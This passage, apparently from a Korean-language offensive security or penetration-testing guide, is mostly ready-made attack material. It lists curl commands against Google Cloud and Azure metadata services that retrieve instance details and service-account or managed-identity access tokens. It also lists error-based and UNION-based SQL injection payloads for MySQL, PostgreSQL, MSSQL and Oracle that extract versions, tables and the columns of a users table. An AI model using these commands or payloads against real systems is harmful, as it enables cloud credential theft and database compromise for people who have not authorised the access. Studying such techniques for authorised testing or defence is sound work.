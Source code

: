 #### 3.5.2. Google Cloud 환경 정보
```bash
# 메타데이터 서비스
curl -H "Metadata-Flavor: Google" \
     http://metadata.google.internal/computeMetadata/v1/

# 프로젝트 정보
curl -H "Metadata-Flavor: Google" \
     http://metadata.google.internal/computeMetadata/v1/project/

# 서비스 계정 토큰
curl -H "Metadata-Flavor: Google" \
     http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```

#### 3.5.3. Azure 환경 정보
```bash
# 인스턴스 메타데이터
curl -H "Metadata: true" \
     "http://169.254.169.254/metadata/instance?api-version=2021-02-01"

# 관리 ID 토큰
curl -H "Metadata: true" \
     "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```

### 3.6. 데이터베이스 정보 수집

#### 3.6.1. 에러 기반 데이터베이스 정보 수집
```sql
-- MySQL 정보 수집
' AND (SELECT * FROM (SELECT COUNT(*),concat(version(),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)--

-- PostgreSQL 정보
' AND 1=CAST((SELECT version()) AS int)--

-- MSSQL 정보
' AND 1=CONVERT(int,(SELECT @@version))--

-- Oracle 정보
' AND 1=UTL_INADDR.GET_HOST_NAME((SELECT user FROM dual))--
```

#### 3.6.2. 스키마 정보 추출
```sql
-- 테이블 목록
' UNION SELECT table_name,2,3 FROM information_schema.tables--

-- 컬럼 정보
' UNION SELECT column_name,data_type,3 FROM information_schema.columns WHERE table_name='users'--

-- 인덱스 정보
' UNION SELECT index_name,column_name,3 FROM information_schema.statistics WHERE table_name='users'--
```
